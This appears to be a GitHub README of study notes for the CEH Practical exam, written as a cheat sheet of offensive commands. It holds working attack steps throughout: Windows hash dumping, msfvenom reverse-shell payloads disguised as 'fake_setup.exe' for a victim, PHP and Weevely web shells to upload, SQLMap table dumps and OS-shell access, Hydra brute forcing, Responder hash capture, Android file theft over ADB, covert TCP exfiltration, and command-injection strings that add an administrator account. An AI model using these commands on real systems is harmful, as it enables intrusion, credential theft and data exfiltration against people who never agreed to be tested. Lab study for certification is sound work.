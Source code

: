 <img src="CEH-PRACTICAL-9-7-2022 (1).pnghh" />  
                                                                                                                          
# Reconnasiance/Footprinting
<details>
  <summary>Recon</summary>

* -r range , Scan Entire Network for ALive host using ARP
```console
:~$ netdiscover -r 192.168.29.1/24
```

* -f switch do not fragment, -l buffer size
```console
:~$ ping <host-ip> -f -l 1300
```
  * __`tracert`__ for windows cmd
```console
:~$ traceroute <host-ip>
```
* [Path Analyzer Pro](https://www.pathanalyzer.com/download.opp/) in traceroute tools, ensure icmp and smart is selected, stop on control is selected
* Start Metasploit Console
```console
:~# msfdb init && msfconsole
:~# msfdb status
```
* Nmap Scanning entire Network

```console
# Don’t ping=> -Pn, SYN scan=> -sS, Aggresive Scan=> -A, Normal_XML and Grepable format all at once=> -oA, Verbose=> -vv 

nmap -Pn -sS -A -oA <Filename> 10.10.1.1/24 -vv
```
* Convert Nmap XML file to [HTML Report](https://nmap.org/book/output-formats-output-to-html.html/)
```console
xsltproc <nmap-output.xml> -o <nmap-output.html>
```
```console
# Scanning SMB Version for OS Detection using Metaspolit
use scanner/smb/smb_version
show options 
set RHOSTS 10.10.10.8-16 
set THREADS 100 
run
  
#Type hosts again and os_flavor will be visible
  hosts
```
</details>

# Scanning Network
<details>
  <summary>Scan Network</summary>
  
* [Angry IP Scanner](https://angryip.org/download/#windows) of windows to Scan Entire Network
* [Advanced IP Scanner](https://github.com/infovault-Ytube/test1/raw/main/ipscan25.exe) free network scanner to analyze LAN
<img src="AdvancedIPScanner.jpg" />  

</details>
  
# ENUMERATION
<details>
  <summary>Enum</summary>

* [Hyena](https://www.systemtools.com/hyena/download.htm)
Expand local workstation to view Users, Services, User Rights, Scheduled Jobs 

* [NetBIOS Enumerator](http://nbtenum.sourceforge.net/)
Enter IP Range and click scan.

* NBT (NetBIOS over TCP/IP), which helps troubleshoot NetBIOS name resolution issues.
```console
nbtstat -A 204.224.150.3
```
* Accessing Shared Files
```console.
# List All Shared Resources
net view  <IP>

# Connect to Shared Resource
net use
net use \\10.10.10.1\e ""\user:""
net use \\10.10.10.1\e ""/user:""
```
* SNMP Enumeration
```shell
nmap -sU -p 161 10.10.1.2
nmap -sU -p 161 --script=snmp-brute 10.10.1.2

# Expoilt SNMP with Metasploit
msfdb init && msfconsole ↵
use auxilary/scanner/snmp/snmp_login ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
  
use auxilary/scanner/snmp/snmp_enum ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
```
* Enum4linux: Enumerating information from Windows and Samba systems
```console
enum4linux -A <Target_IP>
```
</details>
  
  # Vulnerability Analysis
<details>
  <summary>Vulerability</summary>
  
 * Nessus: Assest vulnerability scanner
 * Nikto: Web Server scanner
```console
nikto -h www.example.com tuning 1
  ```
  </details>
  
# System Hacking
<details>
  <summary> Sys password Hacking</summary>

```
# To Dump Windows SAM file hashes
pwDump7.exe> hashes.txt 
```
  > pwDump7.exe : To Dump Windows Hashes [PwDump7](https://www.tarasco.org/security/pwdump_7/pwdump7.zip)
  * [Ophcrack.exe](https://ophcrack.sourceforge.io/download.php?type=ophcrack) : To Crack SAM Hashes to obtain clear Password 
  * [rcrack_gui.exe](http://project-rainbowcrack.com/) : Use Raindow Table to crack hashes
  
  </details>

 
<details>
  <summary> Create A Reverse TCP Connection</summary>

```shell
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole ↵
use exploit/multi/handler ↵
set LHOST=<attacker-IP>  ↵
set LPORT=444 ↵
  run
```
</details>

# Steganography
<details>
<summary> Stego</summary>

#### Hide/unhide text in WhiteSpaces using [snow](http://www.darkside.com.au/snow/)

```shell
SNOW.EXE -C -p 1234 -m "Secret Message"  original.txt ciper.txt
 
# To unhide the hidden text
 
SNOW.EXE -C -p 1234  ciper.txt
```
  
### [OpenStego](https://github.com/syvaidya/openstego/releases) : Hide any data within a cover file like Images
<img src="https://www.openstego.com/image/screenshot/01.png" width="600" height="400" />
<img src="https://www.openstego.com/image/screenshot/02.png" width="600" height="400" />  
  
### [QuickStego](http://cybernescence.co.uk/software-products/QS12Setup.exe): Hide text in pictures without password
<img src="http://quickcrypto.com/content-images/QuickStego_12_Steganography_Software_Ex_sml.jpg" width="600" height="400" /> 
</details>

  
  
#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>

> [Responder](https://github.com/lgandx/Responder) : rogue authentication server to capture hashes
>
>> This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present [Step by Step](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
  
```shell
# In Parrot/Kali OS, 
responder -I eth0  ↵

# In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
# To crack that hash, use JohntheRipper
john SMB<filename>  ↵
  
```
  </details>
  
#  Website Hacking/Password Cracking
<details>
<summary>Website Cracking</summary>

* SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

* Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```
### File Upload Vulnerability
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below

```
> [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener  
```console
nc -vnl -p 1234
```

> [Weevely](https://www.kali.org/tools/weevely/) : Generate PHP Reverse shell
```shell
  
weevely generate password123 /home/error.php

# Upload the above error.php to website and use the below cmd to get reverse shell

weevely http://domain.com/error.php password123  

```
  
### SQL Injection
> Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) 
> [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites
 
> SQLMAP
  
```shell
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```
* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc&ab_channel=Archidote)
  
  
  
</details>

<details>
<summary>Password Cracking</summary>

> Hydra : FTP, SSH, Telnet
  
```console
# SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
  
 # FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
 
# If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
  
# TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet

# Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"  
  
```
  
</details>
  
# Cryptography
 <details>
 <summary>Cipering / Encrypting/ Hashes </summary>
   
 #### Hash
 
> Find/Decrypt Hash Online with [Hashes.com](https://hashes.com/en/decrypt/hash)
 
```shell
 # In Kali
 $hash-identifier  
   
 #Decrypt Hashes
 hashcat '5f4dcc3b5aa765d61d8327deb882cf99' /usr/share/wordlists/rockyou.txt
```
> Calculate Hash of text/File by [HashCalc](https://www.slavasoft.com/download.htm) in Windows🪟
 <img src="https://www.slavasoft.com/images/screenshots/hashcalc.png" />
 
> [MD5Calculator](https://www.bullzip.com/download/md5/md5calc(1.0.0.0).zip) in Windows🪟
 <img src="https://www.bullzip.com/products/md5/dialog.png" />

### CryptoForge 
> Encrypt data with Password and only be decoded with cryptoforge by giving password
 <img src="Cryptoforge.jpg" />   

### BCTextEncoder: Text Encode/Decode
   
<img src="https://www.jetico.com/file-downloads/web_help/bctextencoder/img/textEncode.png" />   

### VeraCrypt: Disk Encrypt/Decrypt
> [Step-By-Step-Tutotrial](https://www.veracrypt.fr/en/Beginner%27s%20Tutorial.html)

### CrypTool : Encode/Decode Text (File Extension is .hex)
* File → New → Enter Text → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Encrypt 
   
* File → Open → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Decrypt


   <img src="Crytool.jpg" />   

  </details> 

# Android Hacking
<details>
<summary>ADB</summary>

> [Live Demo of ADB](https://youtu.be/Hvreb4hjsig)

  ```shell
apt-get update
sudo apt-get install adb -y
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
  
# =================================================================================================== 
  
# Same thing can be done via PhoneSploit tool 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

Enter the Full Path of file to Download
sdcard/Download/secret.txt

  
 ```  
</details>
  
# Covert TCP
<details>
<summary>Covert</summary>
  
> Covert_tcp [source code](covert_tcp.c)

```shell
# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt

```
  
> [Wireshark Capture](Covert_TCP-Capture.pcapng) Hello  This 123 -
 
<img src="covertCapture.jpg" /> 
  
</details>
  
  
<details>
<summary>Misc</summary>
 
```shell
# If Python version returned above is 3.X
# On Windows, try "python -m http.server" or "py -3 -m http.server"
python3 -m http.server
# If Python version returned above is 2.X
python -m SimpleHTTPServer
```
  
> $python -m SimpleHTTPServer 9000
 
> $python3 -m http.server 9000

> nslookup www.domain.com
  
[FTP Server](https://archive.org/download/file-zilla-server-0-9-5/FileZilla_Server_0_9_5.exe) 
  
[YOUTUBE](https://www.youtube.com/watch?v=_4a4qSaIIrw)
  
> Command Injection ( IP| net user Test_user /Add )
  (| net user)
  (| net localgroup Administrators Test_user /Add)
  
File Upload Vul::
file.php
File.php.jpg
Add GIF98 and upload and rename .php.jgp

  Chain attack to execute, go in Command SHell and |copy c:\wamp64\www\DVWA\hackable\uploads\filename.php.jpg c:\wamp64\www\DVWA\hackable\uploads\shell.php
  
</details>
